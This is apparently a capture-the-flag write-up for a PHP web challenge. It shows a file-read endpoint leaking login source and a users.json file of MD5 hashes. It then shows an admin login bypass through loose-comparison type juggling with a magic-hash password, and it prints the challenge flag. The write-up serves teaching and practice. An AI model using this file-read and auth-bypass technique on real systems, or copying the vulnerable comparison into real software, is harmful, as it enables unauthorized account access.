




# TypeFinder!

I kinda forgor my credentials lol. It'll be like really cool if you could recover them for me, ppreciate it boss - your dearest admin

# Flag
```
GCTF25{TypE_jugg13_th3$E_nuT$}
```

# Solution



Trying some credentials (`admin`:`admin`)


Visiting the "forgot username" page:



This returns a JSON:

```json
{"exists":true,"debug":"Try viewing server files to find more info"}
```

Finally, visiting the most interesting page, the debug page:



There seems to be a folder named `private` which seems important.
Fuzzing some possible endpoints, I found the `/view.php?f=<file>` endpoint. Trying it on `login.php`:

```php
Contents of: /var/www/html/login.php
<?php

session_start();
$users_file = '/var/private/users.json';
$users = json_decode(file_get_contents($users_file), true);

$user = $_POST['user'] ?? '';
$pass = $_POST['pass'] ?? '';

if (!isset($users[$user])) {
    echo "Invalid username :(<br><a href='index.php'>Back</a>";
    exit;
}

$stored = $users[$user]['password'] ?? '';

if (md5($pass) == $stored) {
    $_SESSION['user'] = $user;
    header("Location: admin.php");
    exit;
} else {
    echo "Wrong password :(<br><a href='index.php'>Back</a>";
    exit;
}
```

From this, we know that we can find user information in the folder `/var/private/users.json`. Viewing this file with the endpoint:

```json
{
  "guest": {
    "password": "5f4dcc3b5aa765d61d8327deb882cf99"
  },
  "admin": {
    "password": "0e462097431906509019562988736854"
  },
  "alice": {
    "password": "e99a18c428cb38d5f260853678922e03"
  }
}
```

Ultimately we want access to the admin account. However, the hash `0e462097431906509019562988736854` is uncrackable when put into [CrackStation](https://crackstation.net/).

This is where we have to exploit 2 vulnerabilities known as Type Juggling and Magic Hashes (more explained by [CodingKarma](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc)). The authentication function in the login page is as such:

```php
if (md5($pass) == $stored) {            /* LOOSE COMPARISON HERE */
    $_SESSION['user'] = $user;
    header("Location: admin.php");
    exit;
} else {
    echo "Wrong password :(<br><a href='index.php'>Back</a>";
    exit;
}
```

Essentially, a magic hash is a string that looks like a scientific notation like `0e...`. When PHP interprets the hash using loose comparison `==` instead of a strict comparison `===`, it tries to convert the hash into a number which looks like `0 × 10^something`, processing it as `0`.

Looking online for known [magic hashes](https://github.com/spaze/hashes/blob/master/md5.md), we can find passwords that, when hashed with MD5, results in a magic hash, passing the loose comparison and logging in as admin. Using `admin:240610708` to login:

